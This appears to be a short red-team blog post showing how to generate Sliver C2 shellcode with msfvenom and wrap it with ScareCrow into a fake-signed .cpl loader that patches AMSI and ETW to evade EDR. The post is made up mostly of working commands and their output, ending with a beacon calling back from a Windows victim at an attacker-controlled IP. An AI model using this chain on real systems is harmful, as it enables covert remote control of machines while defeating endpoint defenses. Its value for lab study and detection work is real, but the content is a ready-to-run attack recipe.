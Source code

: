 ```yaml
---
layout: post
title: Using ScareCrow to Side Load Sliver Shell Code 
#subtitle: Using ScareCrow to Side Load Sliver Shell Code
#thumbnail-img: /assets/img/nunchucks.png
tags: [SLIVER]
---
```


# ScareCow
ScareCrow serves as a framework designed for generating payloads that can be sideloaded, rather than injected, into a legitimate Windows process. This sideloading approach allows it to bypass Application Whitelisting controls. After the DLL loader is loaded into memory, it employs a method to eliminate any hooks placed by an EDR (Endpoint Detection and Response) system within the system DLLs running in the process's memory. This technique is effective because EDR hooks are typically applied when a process is initially spawned.

In this short blog post I will generate some some shell code from the Sliver C2 framework. I'll then pass it through ScareCrow to receive a loader, equipped with common EDR evasion tactics. I'll then execute it on a updated windows host to get a call back. Once nice notable tatic that ScareCrow employs AES encryption to secure the raw shellcode. This step is crucial in preventing static detection when a security product scans the generated loader on disk. Notably, Windows Defender is pretty good at detecting shell code
# Demo
I'll start off by configuring my Sliver Sliver server to listen for connections and host the shellcode

Lets create our profile and start the job. This will be our stage 2 payload 
```
sliver > profiles new beacon --mtls 10.10.1.49:443 --evasion -f shellcode --jitter 4 --arch amd64 --os Windows crow
[*] Saved new implant profile (beacon) crow

sliver > mtls --lhost 10.10.1.49 --lport 443
[*] Starting mTLS listener ...
[*] Successfully started job #1
```

Next I'll create a new listener that the initial connection from the victim will come to.
```
sliver > stage-listener --url https://10.10.1.49:8443 --profile crow --prepend-size

[*] Sliver name for profile: CHEMICAL_PINEAPPLE
[*] Job 2 (https) started
```

On kali using `msfvenom` we can create some shell code that ScareCrow will use. Per the Sliver documentation I used `winhttps` as `win_http` does not work at this time.
```
┌──(root㉿kali)-[~/sliver]
└─# msfvenom -p windows/x64/custom/reverse_winhttps LHOST=10.10.1.49 LPORT=8443 LURI=/crow.woff -f raw -o shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 992 bytes
Saved as: shellcode.bin
```

Then I used `ScareCrow` to put generate a control panel applet that will load the loader into memory and execute the shell code.
```
┌──(root㉿kali)-[/opt/ScareCrow]
└─# ./ScareCrow -I /root/sliver/shellcode.bin -domain microsoft.com -Loader control

  _________                           _________
 /   _____/ ____ _____ _______   ____ \_   ___ \_______  ______  _  __
 \_____  \_/ ___\\__  \\_  __ \_/ __ \/    \  \/\_  __ \/  _ \ \/ \/ /
 /        \  \___ / __ \|  | \/\  ___/\     \____|  | \(  <_> )     /
/_______  /\___  >____  /__|    \___  >\______  /|__|   \____/ \/\_/
        \/     \/     \/            \/        \/
                                                        (@Tyl0us)
        “Fear, you must understand is more than a mere obstacle.
        Fear is a TEACHER. the first one you ever had.”

[*] Encrypting Shellcode Using ELZMA Encryption
[+] Shellcode Encrypted
[+] Patched ETW Enabled
[+] Patched AMSI Enabled
[+] Sleep Timer set for 2741 milliseconds
[*] Creating an Embedded Resource File
[+] Created Embedded Resource File With bthprop's Properties
[*] Compiling Payload
[+] Payload Compiled
[*] Signing bthprop.dll With a Fake Cert
[+] Signed File Created
[+] bthprop.cpl File Ready
[!] Sha256 hash of bthprop.cpl: 36dc05d689a2efabff6adb8126bf9b7f6cd0b67878b539b138e8e257b619100c
```

With everything set up I transferred the `.cpl` file over to the victim machine and then executed it

![scarecrow](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/scarecrow.png)

Back on the Sliver Server a new beacon checks in
```
[*] Beacon b14e0ce6 CHEMICAL_PINEAPPLE - 10.10.1.47:55464 (Workstation) - windows/amd64 - Mon, 15 May 2023 22:40:36 MDT

sliver >
```
